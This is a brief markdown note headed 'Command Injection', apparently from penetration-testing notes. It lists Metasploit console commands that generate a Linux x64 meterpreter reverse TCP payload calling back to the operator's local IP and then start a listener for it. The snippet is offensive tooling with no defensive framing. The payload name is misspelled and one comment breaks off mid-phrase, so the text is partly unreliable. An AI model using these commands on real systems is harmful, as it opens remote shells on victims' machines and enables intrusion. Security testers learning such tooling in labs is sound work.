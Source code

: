 
# Command Injection
```bash
msfconsole
use payload/cmd/linux/x64/metrepreter/reverse_tcp
set LHOST <local IP/interface>
generate -f raw
# Starts handler to 
to_handler
```